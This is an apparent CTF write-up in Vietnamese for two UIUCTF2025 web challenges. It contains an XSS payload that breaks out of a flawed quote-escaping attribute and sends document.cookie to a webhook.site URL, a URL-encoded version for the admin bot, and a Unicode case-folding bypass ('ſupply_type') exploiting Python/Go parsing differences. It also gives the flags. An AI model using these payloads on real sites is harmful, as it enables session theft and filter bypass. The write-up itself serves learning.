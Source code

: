 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [WRITEUP,UIUCTF2025]
tags: [XSS, Unicode] # TAG names should always be lowercase
published: false
# để published: false ở cuối cùng mới ẩn được trong tất cả các mục
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```
{: .nolineno }

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```
{: .nolineno }
đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`


> **Flag:**
> ```text
> uiuctf{maybe_i_should_just_use_react_c49b79}
> ```
{: .prompt-tip }

## II. Shipping Bay

Khi mở trang web ta được một trang web với chức năng tạo và xem đơn hàng

![image.png](/assets/img/posts/UIUCTF2025/image3.png)

Thử tạo đơn hàng và sau khi đơn hàng được tạo thì không hiển thị trên trình duyệt. Quay trở lại burpsuite ta nhận được request và respone như sau:

![image.png](/assets/img/posts/UIUCTF2025/image4.png)

Quay trở lại source code ta nhận thấy có hai điểm đáng chú ý sau. Đoạn code python thì không cho sử key `supply_type` có value là `flag` ⇒ nếu có thì chặn và không gửi đến `processing_service` của Golang

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```
{: .nolineno }

Nhưng Golang lại cần điều kiện đó để trả ra `flag`

```go
func sendShipment(shipment Shipment) string {
  if shipment.SupplyType == "flag" {
    if flag, exists := os.LookupEnv("FLAG"); exists {
      return flag
    }
    return "uiuctf{fake_flag}"
  }
  return "oops we lost the package"
}
```
{: .nolineno }
Vậy để vượt qua thử thách trên? Vấn đề nằm ở **sự khác biệt về chuẩn hóa Unicode của** Python và xử lý Json của Go. Khi unmarshal vào struct, Go nội bộ xây chiến lược tìm field theo **tên JSON**  và cho phép một dạng **so khớp không phân biệt hoa-thường** (casefold). Vậy việc cần làm ở đây là tìm kí tự có casefold để vượt qua rào cản để lấy được flag. Và mình dùng đoạn code sau đây để tìm kí tự đó:

```go
package main

import (
  "fmt"
  "strings"
  "unicode"
)
func main() {
  s := "supply_type"
  runes := []rune(s)
  for pos, target := range runes {
    count := 0
    fmt.Printf("Vị trí %d, ký tự gốc %q (U+%04X)\n", pos, target, target)
    for cand := rune(0); cand <= unicode.MaxRune; cand++ {
      if !unicode.IsPrint(cand) || cand == target {
        continue
      }
      if strings.EqualFold(string(cand), string(target)) {
        fmt.Printf("  -> U+%04X %q\n", cand, cand)
        count++
      }
    }
    fmt.Println("  Total:", count)
  }
}
```
{: .nolineno }

và kết quả trả về chỉ duy nhất kí tự `s` có casefold `ſ` 

```
Vị trí 0, ký tự gốc 's' (U+0073)
  -> U+0053 'S'
  -> U+017F 'ſ'
```

Gửi payload đã chứa casefold để nhận flag `origin=Earth+Station+Beta&destination=Mars+Colony+Alpha&supply_type=hello&ſupply_type=flag&weight=2.4+tons&departure=2000-02-01&arrival=2000-02-02&priority=Medium&vessel=Cargo+Hauler+IX` 

Vậy nó hoạt động như nào?

Khi ta gửi `supply_type=hello&ſupply_type=flag` thì sẽ được xử lý như sau:

- `lower()` không casefold, không normalize do đó phân biệt `supply_type` và `ſupply_type` nên thêm luôn vào dictonary hay key này. và `supply_type=hello` có value ≠ `flag` nên đoạn payload sẽ được gửi tiếp đến Go
- Go khi map JSON key → struct field **so khớp không phân biệt hoa-thường theo Unicode** (case folding), nên coi `ſ` ≡ `s`. Vậy khi Go nhận `supply_type=hello` và sau đó lại nhận được `ſupply_type=flag` thì casefold nó và ghi đè thành `supply_type=flag` và vượt qua được kiểm tra nên trả ra flag.

> **Flag:**
> ```text
> uiuctf{maybe_we_should_check_schemas_8e229f}
> ```
{: .prompt-tip }